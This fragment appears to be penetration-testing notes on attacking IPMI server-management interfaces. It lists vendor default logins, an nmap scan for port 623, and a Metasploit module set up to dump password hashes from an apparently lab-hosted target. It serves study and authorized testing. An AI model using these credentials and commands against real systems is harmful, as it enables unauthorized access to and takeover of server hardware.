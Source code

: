 

#### Default creds
- Dell iDRAC: `root / calvin`
- HP iLO: `Administrator / random password`
- Supermicro IPMI: `ADMIN / ADMIN`

```bash
# scan with nmap script
sudo nmap -sU --script ipmi-version -p 623 <target-ip>

# Metasploit Dumping Hashes
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.42.195
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt
set USER_FILE /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt

run

```